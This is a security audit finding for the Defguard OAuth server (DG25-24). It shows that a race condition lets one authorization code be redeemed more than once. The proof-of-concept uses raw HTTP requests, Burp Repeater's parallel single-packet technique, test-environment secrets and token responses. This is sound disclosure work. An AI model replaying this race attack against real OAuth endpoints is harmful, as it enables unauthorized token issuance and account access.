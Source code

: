 ```yaml
---
title: "DG25-24: RFC 6749 violation - code can be used more than once due to race condition"
cvss_score:
severity: Info
cvss_string: "/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1550
status: Completed
---
```


### Technical details

1.  Generate code:

**Request:**\
\
**GET**
/api/v1/oauth/authorize?scope=profile&response_type=code&client_id=9szvHNlxY6R3jvbX&redirect_uri=https%3A%2F%2Fisec.pl&state=1&nonce=1&allow=true
HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=q4HT5ItlifpmV4rDDUcXZVWU\
\
\
**Response:**\
\
**HTTP/2** 302 Found\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Date:** Tue, 12 Aug 2025 10:33:29 GMT\
**Location:** `https://isec.pl/?code=tPwLxI4iYqGUFSxclZUwOZ0d&state=1`\
**Server:** Caddy\
**Content-Length:** 0

1.  Send below requests into Burp\'s Repeater twice. Group Repeater\'s
    tabs into single group and Send group in parallel (single-packet
    attack).

**Request:**\
\
**POST** /api/v1/oauth/token HTTP/2\
**Host:** defguard.dvpnsec.net\
**Content-Length:** 165\
**Content-Type:** application/x-www-form-urlencoded\
\
`grant_type=authorization_code&redirect_uri=https://isec.pl&code=tPwLxI4iYqGUFSxclZUwOZ0d&client_id=9szvHNlxY6R3jvbX&client_secret=SHyMugRCmiTkLdo1xtV5IwgrY1dKoHpN&`\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Tue, 12 Aug 2025 10:33:36 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 124\


```json
{
"access_token ": "c4SyMSrsSPYjT7OqylFsHMDZ ",
"id_token ":null, 
"refresh_token ": "Io0N0HKAOS98lepMvHqt3duh ", 
"token_type ": "bearer "
}
```

**Request:**\
\
**POST** /api/v1/oauth/token HTTP/2\
**Host:** defguard.dvpnsec.net\
**Content-Length:** 165\
**Content-Type:** application/x-www-form-urlencoded\
\
`grant_type=authorization_code&redirect_uri=https://isec.pl&code=tPwLxI4iYqGUFSxclZUwOZ0d&client_id=9szvHNlxY6R3jvbX&client_secret=SHyMugRCmiTkLdo1xtV5IwgrY1dKoHpN&`\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Tue, 12 Aug 2025 10:33:36 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 124\

```json
{ 
"access_token ": "YUd8GGDbXJQZr9V4ebYxqx8Q ", 
"id_token ":null,
"refresh_token ": "04h4wum40uw0Uc1zELYRSby6 ",
"token_type ": "bearer"
}
```
The same code generated two different access tokens.

